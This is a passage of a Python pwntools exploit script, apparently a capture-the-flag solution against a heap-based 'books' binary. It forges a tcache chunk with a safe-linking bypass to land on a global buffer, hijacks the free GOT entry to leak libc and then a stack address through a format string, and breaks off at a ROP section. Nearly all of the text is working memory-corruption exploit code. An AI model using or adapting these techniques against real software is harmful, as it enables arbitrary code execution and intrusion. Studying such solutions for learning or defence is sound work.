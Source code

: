 ```python

throw(4)
throw(3)
throw(2)
write(2, b"E"*0x20)

fake_chunk = p64(0) + p64(0x41)  # prev_size, next_size
secret_msg = 0x004040c0
fake_chunk += p64(secret_msg ^ (heap_addr >> 12)) + \
    p64(0x0)  # next = secret_msg
# fake-chunk replaces chunk C's metadata & next ptr
edit(2, b"E"*0x10 + fake_chunk)

write(3, b"F"*0x20)  # re-allocate chunk C
write(4, b"G"*0x20)  # target chunk allocated
fake_book = p64(0x1000) + p64(secret_msg)  # size, ptr
payload = (p64(0) * 2 +  # secret_msg
           b"by " + signature + 7 * b"\x00" +  # author_signature
           fake_book)  # books[0]
edit(4, payload)

#################
### Leak libc ###
#################
fake_book2 = p64(0x8) + p64(exe.got["free"])
bss_payload = payload + fake_book2
# writes to secret_msg. book[1] now has ptr=got['free'] & size=0x8
edit(1, bss_payload)
edit(2, p64(exe.plt["puts"]))  # overwrites free with puts

fake_book2 = p64(0x8) + p64(exe.got["puts"])
bss_payload = payload + fake_book2
edit(1, bss_payload)
throw(2)

libc_leak = u64(p.recvline(keepends=False) + b"\0\0")
info("libc leak: " + hex(libc_leak))
libc.address = libc_leak - libc.sym['puts']
info("libc leak: " + hex(libc.address))

##################
### Leak Stack ###
##################
fake_book2 = p64(0x8) + p64(exe.got["free"])
bss_payload = payload + fake_book2
# writes to secret_msg. book[1] now has ptr=got['free'] & size=0x8
edit(1, bss_payload)
edit(2, p64(exe.plt["printf"]))  # overwrite free with puts

fake_book2 = p64(0x8) + p64(0x404100)  # size=0x8 & ptr=book[2]
bss_payload = payload + fake_book2 + b"%8$p\n\0"
# writes to secret_msg. book[1] now has ptr=book[2] & size=0x8. book[2] now equals our format string.
edit(1, bss_payload)
throw(2)  # free("%8$p\0") becomes printf("%8$p\0")

stack_leak = int(p.recv(14).decode(), 16)
info("stack leak: " + hex(stack_leak))
ret = stack_leak - 24
info("ret: " + hex(ret))

################
##### ROP ######
```